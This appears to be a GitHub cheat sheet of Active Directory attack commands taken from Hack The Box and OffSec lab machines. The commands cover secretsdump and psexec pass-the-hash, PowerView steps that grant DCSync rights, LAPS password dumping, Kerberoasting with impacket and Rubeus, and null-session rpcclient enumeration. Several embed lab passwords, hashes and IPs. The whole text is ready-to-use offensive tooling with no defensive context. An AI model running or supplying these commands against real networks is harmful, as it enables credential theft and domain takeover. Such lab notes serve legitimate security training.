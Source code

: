 ### secretsdump.py with kerberos 
`secretsdump.py -k -no-pass dc.support.htb` 

### psexec.py with hash example 
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26 Administrator@10.10.11.174` 

### Use Powerview to Add User to a group, create a credential, then add that to DCSync rights
(Solution to HTB Forest)[https://0xdf.gitlab.io/2020/03/21/htb-forest.html]
`Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync` 

### use ps remoting to invoke commands powershell 

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername dc01 -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
``` 

### LAPS dump password by computername
`Get-AdmPwdPassword -ComputerName dc01 | Select-Object Password,ExpirationTimestamp` 

### Check for LAPS passowrd w/ AD-Module
`Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` 

### Kerberoasting w/ impacket
`GetUserSPNs.py -request -dc-ip 10.10.252.24 controller.local/machine1 -outputfile hashes.kerberoast` 

### LDAP search for LAPS passwords 
`ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` 

### Enumerating users on a Windows domain with rpcclient (without credentials)

```
rpcclient -U "" -N <ip>
    rpcclient $> enumdomusers
    rpcclient $> queryuser <user_RID>
```

### Kerberoasting w/ Rubeus
`Rubeus.exe kerberoast /outfile:hashes.txt` 







